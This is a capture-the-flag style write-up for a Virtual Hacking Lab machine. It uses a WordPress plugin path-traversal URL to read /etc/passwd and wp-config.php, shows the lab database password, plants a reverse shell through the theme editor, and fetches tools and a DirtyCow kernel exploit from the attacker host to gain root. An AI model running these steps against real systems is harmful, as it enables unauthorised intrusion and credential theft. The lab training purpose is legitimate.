# Techblog - Virtual Hacking Lab

| Info          | Details                                                                 |
| ------------- | ----------------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                                     |
| Difficulty    | Advanced                                                                |
| Target IP     | 10.11.1.3                                                               |
| OS            | Linux                                                                   |
| Vulnerability | WordPress Plugin LFI, Weak Credential Exposure, DirtyCow Kernel Exploit |
| Tools Used    | Nmap, Gobuster, Dirsearch, WPScan, Searchsploit, LinPEAS, pspy          |

## Attack Path
1. Reconnaissance
2. Port Scanning
3. Web Enumeration
4. Vulnerability Identification
5. Exploitation
6. Credential Harvesting
7. Remote Shell Access
8. Privilege Escalation
9. Root Access

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir techblog
cd techblog
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

# Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.3'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



## Web Enumeration

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```





Directory Listing discovered wordpress directory.

## WordPress Enumeration

The WordPress installation was scanned using **WPScan**.

```bash
wpscan --update
wpscan --url http://$ip --enumerate ap,t,u
```

The scan revealed several plugins including **WordFence**.



`searchsploit wordfence`



Results: no compatible exploit was found.

Enumerate the website now:



Discovered another plugin: **WordPress Site Import 1.0.1**

Search for this vulnerabilities.

```bash
searchsploit wordpress site import 1.0.1
```



Discovered a single exploit which lead to local file inclusion.

```bash
searchsploit -m 39558
```



The code display I could use the link to read some files.

## Exploitation - Local File Inclusion

Navigate to the following link

```bash
http://10.11.1.3/wp-content/plugins/site-import/admin/page.php?url=../../../../../../../../../../../../../etc/passwd
```



Result: Successful to read the `/etc/passwd` file.

```bash
# so the file directory is in wp-content
http://10.11.1.3/wp-content/plugins/site-import/admin/page.php?url=../../../../wp-config.php
```



Credentials were discovered inside the configuration file:

```bash
# found database password and user
techblog::z8n#DZf@Sa#X!4@tqG
```

Using the password to login wp-admin login page



Results: Successfully login as techblog

Now enumerate the webpage, usually I can upload a rev shell here.

Appearance > Editor > index.php

Replace the code with reverse.php, and the navigate to htpp://10.11.1.3/index.php



# Post Exploitation

```bash
# Upgrade to a stable shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Check user privilege and permission
whoami
id
```



# Linux Privilege Escalation

```bash
#try weak password 
su techblog
techblog::techblog
techblog::z8n#DZf@Sa#X!4@tqG
"Failed"

ls -la /home 

sudo -l
"Not a sudo user"

cat /etc/crontab
"No cronjob"

cat /etc/shadow
cat /var/mail*
find / -perm -u=s -type f 2>/dev/null
"Failed"

# hidden crontab
wget http://172.16.1.1/pspy64
chmod +x pspy64
timeout 120s /tmp/pspy64
"Seems like no hidden job running by root"
```

No immediate privilege escalation vectors were found.

```bash
wget http://172.16.1.1/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
"Found couple exploit can help Priv Esc"
```



Exploiting kernel version with dirtycow

```bash
# before that lets confirm the version
uname -a
ldd --version

searchsploit dirty cow
searchsploit -m 40616

gcc 40616.c -o 40616 -pthread

## Upload to target machine
# in the file directory
python -m http.server 80

# in target machine
wget http://172.16.1.1/40616 && chmod +x 40616

## Now in target machine run the exploit
./40616
```

Seems is working try to verify the users

```bash
# try
whoami
id
cat /root/key.txt
```

retrieved key.txt




